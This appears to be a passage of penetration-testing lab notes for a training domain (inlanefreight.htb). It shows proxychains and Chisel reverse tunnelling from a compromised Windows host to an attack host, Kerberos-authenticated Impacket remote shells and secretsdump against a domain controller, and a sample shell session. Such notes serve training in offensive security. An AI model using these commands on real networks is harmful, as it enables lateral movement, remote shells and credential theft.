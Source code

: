#### Proxychains configuration
```bash
# Configure proxychains for SOCKS5
cat > /etc/proxychains.conf << EOF
[ProxyList]
socks5 127.0.0.1 1080
EOF
```

#### Chisel tunnel setup
```bash
# On attack host - start chisel server
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_* chisel && chmod +x ./chisel
sudo ./chisel server --reverse

# On Windows machine (MS01) - connect client
c:\tools\chisel.exe client ATTACK_HOST_IP:8080 R:socks
```

### Impacket with Kerberos

#### Basic usage
```bash
# Set ccache file environment variable
export KRB5CCNAME=/path/to/ccache/file

# Use target hostname (not IP) with -k flag
proxychains impacket-wmiexec dc01 -k
proxychains impacket-psexec dc01 -k  
proxychains impacket-smbexec dc01 -k
proxychains impacket-secretsdump dc01 -k
```

#### Example session
```bash
proxychains impacket-wmiexec dc01 -k

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
C:\>whoami
inlanefreight\julio
```

### Evil-WinRM with Kerberos

#### Prerequisites installation
```bash
# Install Kerberos package
sudo apt-get install krb5-user -y

# During installation, set:
# Default realm: INLANEFREIGHT.HTB
# KDC: dc01.inlanefreight.htb
```
